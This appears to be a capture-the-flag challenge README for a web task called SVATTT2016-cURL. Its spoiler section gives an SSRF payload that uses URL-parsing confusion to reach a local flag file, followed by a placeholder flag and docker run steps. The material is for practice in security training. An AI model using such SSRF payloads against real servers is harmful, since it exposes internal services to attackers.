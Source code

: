 # SVATTT2016-cURL
**Category:** web

**Author:** l4w

**Difficulty:** easy

## Description
```
http://x.x.x.x/
Someday, SSRF would turn to RCE.
```

## Points
100

## Solution
<details>
 <summary>Reveal Spoiler</summary>

Payload:

`http://google.com#@127.0.0.1:80/fla[g-h].php`

 ## Flag
`fl4g{t3st_flag}`


</details>

## Run locally
### Build
```
docker-compose build
```

### Run
```
docker-compose run -d
```
---
**Disclaimer**: I am not the creator of this challenge. This was adapted directly from: https://github.com/l4wio/CTF-challenges-by-me/tree/master/svattt-2016/quals/challenges/web/cURL